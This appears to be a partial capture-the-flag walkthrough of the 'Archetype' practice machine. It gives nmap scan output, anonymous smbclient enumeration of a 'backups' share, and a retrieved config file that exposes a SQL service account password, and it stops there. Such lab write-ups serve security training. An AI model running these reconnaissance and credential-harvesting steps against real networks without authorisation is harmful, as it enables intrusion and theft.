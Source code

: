 
nmap scanning:

~~~
nmap  10.129.7.59 -sC -sV
~~~

~~~
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 12:42 EDT
Nmap scan report for 10.129.7.59
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-05-29T16:45:10+00:00; +2m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-05-29T15:29:30
|_Not valid after:  2053-05-29T15:29:30
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-29T16:44:57
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-05-29T09:45:00-07:00
|_clock-skew: mean: 1h47m01s, deviation: 3h30m02s, median: 1m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.98 seconds
~~~

What is the use of Smbclient in Linux?

smbclient is **commonly used in network administration tasks, such as transferring files between Windows and Linux systems or backing up files from Windows servers**. It can also be used in scripting and automation tasks to perform operations on remote SMB/CIFS resources.

smbclient:

~~~
smbclient -N -L \\\\  10.129.7.59\\ 
~~~

-N : No password  
-L : This option allows you to look at what services are available on a server

~~~
smbclient -N -L \\\\10.129.7.59\\
~~~


        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.7.59 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

smbclient -N \\\\10.129.7.59\\backups

smbclient -N \\\\10.129.7.59\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2616187 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit

cat prod.dtsConfig:
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>




